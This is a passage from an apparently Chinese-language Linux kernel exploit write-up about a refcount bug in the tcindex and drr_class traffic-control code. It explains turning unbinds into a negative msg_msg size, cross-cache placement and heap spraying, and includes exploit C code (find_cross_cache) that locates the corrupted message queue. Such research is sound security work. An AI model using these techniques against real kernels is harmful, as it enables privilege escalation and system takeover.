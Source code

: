 ```c
			if (tcf_exts_get_net(&r->exts))
				tcf_queue_work(&r->rwork,
					       tcindex_destroy_rexts_work);
			else
				__tcindex_destroy_rexts(r);
		}
	}

	for (i = 0; p->h && i < p->hash; i++) {
		struct tcindex_filter *f, *next;
		bool last;

		for (f = rtnl_dereference(p->h[i]); f; f = next) {
			next = rtnl_dereference(f->next);
			tcindex_delete(tp, &f->result, &last, rtnl_held, NULL);
		}
	}

	tcf_queue_work(&p->rwork, tcindex_destroy_work);
}
```

因为msg_msg的头部占0x30字节，msg_msg的内容得大于0x30才能分配到kmalloc-cg-128，如0x40的大小只需要0x41次unbind即可使`dst->m_ts`为负数，将find_msg的循环设置为0x2000甚至是更大，这样就很轻松完成该条件竞争，overflow相邻msg_msg了：

![](https://image.baidu.com/search/down?url=https://wx2.sinaimg.cn/large/ee2fecafly1hme192peuyj20oj0kkdga.jpg)

其实除了时间窗口，我还需要确保循环减1的drr_class对象，正好是prepare_copy生成的msg_msg对象，基础的cross cache做完之后（下一节详解），只是一般性的[堆喷](https://adamdoupe.com/publications/kheaps-exploit-reliability-usenix22.pdf)和FUSE的[多线程](https://libfuse.github.io/doxygen/structfuse__loop__config.html#aa91fc3ebb89633f27e94d8ab510bc37e)来卡点都会降低利用的成功率。 借鉴[CVE-2022-29582](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#method)的想法，我找到了一个精准定位的方法。

虽然存在`CONFIG_SLAB_FREELIST_RANDOM`，因为unbind减1就相当于m_ts减1，在减1后通过MSG_COPY的返回值即可确定这个被绑定多次的drr_class对象：

```c
static void find_cross_cache(void)
{
    int i;
    int ret;
    struct msgbuf {
        long mtype;
        char mtext[0x40];
    } msg;

    send_del_filter(0x42);
    sleep(5);

    memset(&msg, 0, sizeof(msg));
    for (i = 0; i < 2 * SPRAY_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        ret = msgrcv(g_qid[i], &msg, 0x3f, 0, IPC_NOWAIT | MSG_COPY);
        if (ret > 0) {
            found_cross_qid = i;
            break;
        }
    }

    if (found_cross_qid < 0) {
        printf("[-] Cannot find the cross cache one :(\n");
        exit(-1);
    }

    printf("[+] Find the cross cache one is at %d msgq\n", found_cross_qid);
}
```
